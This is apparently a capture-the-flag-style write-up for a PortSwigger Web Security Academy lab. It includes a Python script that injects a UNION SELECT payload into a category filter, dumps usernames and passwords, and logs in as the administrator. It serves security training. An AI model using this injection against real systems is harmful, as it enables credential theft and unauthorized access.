 ```yaml
---
title: SQL injection UNION attack, retrieving data from other tables
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables/">
5. SQL injection UNION attack, retrieving data from other tables</a>

Finally using a UNION attack to do something interesting, we use the UNION
attack to leak data from other tables. In this case, we manage to leak all the
usernames and passwords in the target database. We then use the administator's
password to log in as the administrator.

Solution:

```python
# usage:
# python3 5.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import re
from argparse import ArgumentParser

import requests


class Solution:
    def __init__(self, url: str, who: str) -> None:
        self.url = url.rstrip("/")
        self.who = who
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        s = requests.Session()
        r = s.get(
            f"{self.url}/filter?category=Accessories'+UNION+SELECT+username,+password+FROM+users--"
        )
        password = re.findall(r"administrator</th>\s+<td>([\w]+)", r.text)[0]
        r = self.login(self.who, password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    args = parser.parse_args()
    s = Solution(args.url, args.who)
    s.solve()


if __name__ == "__main__":
    main()
```
